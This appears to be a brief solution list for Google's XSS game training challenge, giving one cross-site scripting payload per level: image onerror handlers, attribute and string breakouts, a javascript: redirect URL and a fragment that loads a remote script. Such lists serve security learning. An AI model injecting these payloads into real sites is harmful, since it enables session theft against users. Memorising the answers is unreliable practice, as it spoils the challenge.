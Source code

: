 https://xss-game.appspot.com

1. `<img src=x onerror=alert(1)>`
2. `<img src=x onerror=alert(1)>`
3. `#' onerror=alert(1)>//`
4. `'); alert('XSS`
5. `/signup?next=javascript:alert(1);`
6. `#/httP://example.com/xss.js`

